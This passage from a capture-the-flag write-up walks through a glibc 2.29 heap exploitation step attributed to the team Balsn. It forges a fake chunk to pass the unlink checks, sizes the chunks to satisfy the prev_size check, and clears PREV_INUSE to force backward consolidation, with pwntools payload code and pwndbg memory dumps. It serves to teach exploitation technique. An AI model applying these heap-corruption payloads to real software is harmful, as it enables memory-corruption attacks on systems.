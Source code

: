 A new check has been added in glibc 2.29. It is shown in `_int_malloc`. The `prev_size` of the chunk we are freeing must match the size of the chunk that we are consolidating back onto. This means that since our fake chunk's size is 0x230, we must put the consolidating chunk 0x230 bytes after our fake chunk, otherwise the consolidation will fail at this check.

Next, we have to bypass the `fd->bk != p || bk->fd != p` check. We can inspect the fake 0x230 sized chunk in GDB and know for a fact that this fake chunk will be at `heapbase+0x890`. Knowing this, we can forge the `fd` and `bk` fields as follows to be able to bypass this check:
```python
# Create a fake 0x230 sized chunk within a new chunk
# The target address is used to pass the unlink_chunk checks in libc 2.29
target = heap + 0x890
buy(6, 0x80, '\x00'*8 + p64(0x231)+p64(target+8)+p64(target+0x10)+p64(target))
```
```c
pwndbg> x/10gx 0x55b0b1fb9880
0x55b0b1fb9880: 0x0000000000000000      0x0000000000000091 <- p
0x55b0b1fb9890: 0x0000000000000000      0x0000000000000231 <- fake chunk
0x55b0b1fb98a0: 0x000055b0b1fb9898      0x000055b0b1fb98a0 <- fd->bk == p, bk->fd == p
0x55b0b1fb98b0: 0x000055b0b1fb9890      0x0000000000000000
0x55b0b1fb98c0: 0x0000000000000000      0x0000000000000000
```

We don't have to bypass the checks in the `if (!in_smallbin_range ...)` block since `in_smallbin_range` will compare the chunk's size to 0x3ff, and our chunk's size is only 0x230, putting it inside the small bin range. 

Next, **Balsn** creates three 0x80 chunks followed by a 0x600 sized chunk. The three 0x80 chunks make it so that the gap between the fake 0x230 sized chunk and the 0x600 sized chunk is exactly 0x230 bytes, which is required for the backwards consolidation check to pass. Following that, the second and last upgrade is used to overwrite the 0x600 chunk's size header to 0x610 (to switch off the `PREV_INUSE` bit), as well as change its `prev_size` to 0x230:
```python
# Create enough chunks to create a 0x230 sized gap between the fake 0x230 chunk above
# and the 0x600 sized chunk below that we will consolidate backwards
buy(5, 0x80, 'C'*0x80)
buy(0, 0x80, 'D'*0x80)
buy(1, 0x80, 'E'*0x80)

# This chunk will be freed to consolidate backwards
buy(2, 0x600, '\x00'*0x600)

# Set prev size to go back to the fake 0x230 chunk
# Clear prev inuse bit of the 0x600 sized chunk
upgrade(1, '\x00'*0x80 + p64(0x230) + p64(0x610))
```
```c
pwndbg> x/100gx 0x561433a1c880
0x561433a1c880: 0x0000000000000000      0x0000000000000091
0x561433a1c890: 0x0000000000000000      0x0000000000000231
0x561433a1c8a0: 0x0000561433a1c898      0x0000561433a1c8a0
0x561433a1c8b0: 0x0000561433a1c890      0x0000000000000000
...
0x561433a1cab0: 0x0000000000000000      0x0000000000000000
0x561433a1cac0: 0x0000000000000230      0x0000000000000610 <- 0x600 sized chunk
0x561433a1cad0: 0x0000000000000000      0x0000000000000000
```
